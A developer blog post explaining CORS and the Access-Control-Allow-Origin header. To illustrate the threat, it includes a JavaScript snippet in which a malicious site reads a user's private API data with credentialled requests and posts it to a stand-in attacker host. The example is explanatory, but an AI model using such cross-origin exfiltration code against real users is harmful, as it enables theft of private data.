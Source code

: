 ```yaml
---
layout: blog
title: "CORS: Access-Control-Allow-Origin whut?!"
draft: false
date: 2023-11-21T17:45:00.000Z
date_updated: 2023-11-21T17:45:00.000Z
featured_image: /media/uploads/tanja-cotoaga-hvcXgf9rYKc-unsplash.jpg
page_bg: linear-gradient(to right,#c0a3c7,#3a60d3)
excerpt: CORS can seem like a super tricky and complex topic to wrap your head around, but in reality, it's not as hard as it appears.
---
```

## A Summary

CORS restrictions are a way of telling a user's browser that data should be protected from code running on a website, and asking the browser to place restrictions on that code to keep the data safe.

## Understanding the problem

*This section will explain the problem that CORS restrictions were invented to resolve. Feel free to skip this if you're happy that you understand why CORS is important.*

Imagine you have a website, let's call it `example.com`. You want to load some data from your API. How would you do it?

You might decide to do something like this.
```js
const data = await fetch('https://example.com/api/data');
```
This is great. Simple, and it works. Now let's imagine you add authentication. Let's say you implement some kind of API key. What would your fetch look like now?
```js
const myToken = '5Up3Rs3cr374PiK3Y';
const data = await fetch('https://example.com/api/data', {
  headers:  {
    Authorization: 'Bearer ' + myToken
  }
});
```
Cool. That works nicely. But then I decide to set up some more complex authentication and everyone has their own token. Maybe it's just easier to store that as a cookie? That's going to make it a lot easier, because now I can do this again:
```js
const data = await fetch('https://example.com/api/data');
```
My browser *automatically knows* to attach cookies from `example.com` to every request.

Great, so now I'm cooking with gas, I can fetch data from my API super easily.

But now I decide that for some reason I need to move my API to a different server, and that server is going to be hosted at `api.example`.

Now I can update my fetch to 
```js
const data = await fetch('https://api.example/api/data');
```
All good, users have to sign in again because the cookies from `example.com` don't get sent to `api.example`, but otherwise, everything is going smoothly.
Except wait, now someone has set up a site called `stolen-content.example`. I check their code, and they're just using my back-end for their own purposes!

*How to protect your users from credential theft will be the topic of another post in future, but for now, please just assume that your backend is configured properly to stop your users' authentication cookies leaking.*

But it gets worse, I find out that they're requesting data which is private for my users!:
```js
const data = await fetch('https://api.example/api/my_users_secret_data');
```
And my server is happily sending the data, because the user is sending a credentialled request!

Oh no, it's even worse than I thought... look at the next line:
```js
const data = await fetch('https://api.example/api/my_users_secret_data');
const json = await data.json();
fetch('https://stolen_content.example/save_secret_data', {
  method: POST,
  body: JSON.stringify(json)
});
```
They're  saving our users' data to their own database! How can we stop them?!

## CORS
Browser developers realised that the above problem is something that it's difficult for an application developer to stop. The browser is issuing a request with a legitimate cookie attached to it. How could the application know that it's being done with malicious intent? The real underlying problem here is that the end user, who is just trying to browse the internet is executing code on their browser that they don't understand, and that could be written by anyone.

So how do we protect users from the code that they're running? Enter CORS. Browser developers told application developers that they will implement some logic that application developers can rely on.  The application developer can tell the browser where they want to allow their requests to come from. This is the `Access-Control-Allow-Origin` header.

Here are some examples:
```
Access-Control-Allow-Origin: *
// This data can be requested by anyone
Access-Control-Allow-Origin: https://example.com
// This data should only be requested by people browsing https://example.com
```

Now, if a user is on `stolen-content.example` and their browser requests data from my API, then their request will fail with a CORS error, and the code to steal the users' secret data will fail.

*Note that all of this assumes that the user's browser properly respects the CORS header, and that we don't have to worry about the user using a compromised browser, and nor do we have to worry about the user trying to steal their own information. CORS only solves the problem of untrusted developers being allowed to run code on your computer through your browser, potentially with access to secret information.*

## Further reading
CORS actually has some other sensible protections (for example, you can't use `Access-Control-Allow-Origin: *` with a credentialled request, you can tell the browser not to share headers or not to allow specific methods, etc.). I'd recommend you start with [the MDN docs](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Access-Control-Allow-Origin).
